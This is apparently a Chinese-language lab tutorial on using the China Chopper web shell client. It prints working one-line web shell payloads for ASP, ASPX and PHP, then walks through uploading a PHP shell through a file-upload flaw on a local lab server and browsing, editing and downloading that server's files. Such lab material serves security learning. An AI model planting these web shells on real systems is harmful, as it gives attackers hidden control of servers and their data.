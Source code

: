 ```yaml
---
title: 中国菜刀配合一句话木马基本使用
date: 2021-12-27 15:48:22
tags: 
- 木马
- 一句话
---
```


## 中国菜刀配合一句话木马基本使用

目的：
* 学习一句话木马
* 学习菜刀的使用

原理：
菜刀的主要功能是用来连接一句话木马的，asp、aspx、php的一句话菜刀都可以连，只是这几种一句话语句不一样。

* asp的一句话是：`<%eval request(“pass”)%>`

* aspx的一句话是：`<%@ Page Language=”Jscript”%><%eval(Request.Item["pass"],”unsafe”);%>`

* php的一句话是：`<?php @eval($_POST['pass']);?>`

过程：

* 打开火狐，http://192.168.1.3:8080/up，打开文件上传漏洞演示脚本，点击中国菜刀连接一句话木马![image-20211228105130236](http://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105130236.png)

* 点击浏览，上传php文件，木马地址为http://192.168.1.3:8080/up/images/lubr.php![image-20211228105156422](http://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105156422.png)

* 打开中国菜刀

* 添加木马地址，密码为lubr，脚本类型php(eval)![image-20211228105329855](http://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105329855.png)

* 添加到主界面![image-20211228105353101](http://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105353101.png)

* 右键文件管理，即可查看目标服务器的完整目录，也可进行创建文件，修改文件，修改和下载等相关操作![image-20211228105418680](http://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105418680.png)

* 右键单击浏览网站，即可实现浏览器功能，浏览该站点![image-20211228105439630](http://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105439630.png)



